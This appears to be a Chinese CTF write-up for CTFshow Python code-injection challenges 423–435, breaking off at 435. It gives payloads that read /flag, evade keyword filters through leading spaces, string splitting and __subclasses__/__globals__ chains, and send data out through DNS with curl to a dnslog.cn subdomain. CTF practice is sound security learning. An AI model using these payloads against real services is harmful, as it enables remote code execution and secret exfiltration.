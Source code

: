 423：导入了os模块

```
?code=os.popen('cat /flag').read()
?code=open('/flag').read()
```

后面去掉了`import os`，还有增加了各种过滤：`os|open|system|read|eval|str`，

但是这些过滤只会匹配开头。空格绕过即可

```
?code=%20str(open('/flag').read())
```



## 432~434

后面就是正常过滤了，

payload有点类似ssti模版注入，也是找模块来执行，注意return的返回得是字符串，可以加个str()

这里用dns外带:[DNSLog Platform](http://www.dnslog.cn/)



关于过滤了啥可以看yu师傅的wp：[CTFSHOW其他篇—羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/112692697)
(下面引号里的基本都是抄yu师傅博客的~)

拼接绕过就好

> 432过滤了`os|open|system|read|eval`

```
?code=str(''.__class__.__mro__[1].__subclasses__()[185].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').__dict__['pop'+'en']('curl `cat /flag`.xxxx.dnslog.cn'))
```

> 433本题过滤了`os|open|system|read|eval|builtins`

```
?code=str(''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['po'+'pen']('curl `cat /flag`.xxx.dnslog.cn'))
```

> 434过滤了`os|open|system|read|eval|builtins|curl`

```
?code=str(''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['po'+'pen']('cu'+'rl `cat /flag`.xxx.dnslog.cn'))
```



## 435~439

把下划线过滤了，
可以用`attr()`、`getattr()`啥的但是这个方法一打就是500，可能我的payload有问题QAQ
也可以用`request`

> 435过滤了`os|open|system|read|eval|builtins|curl|_`
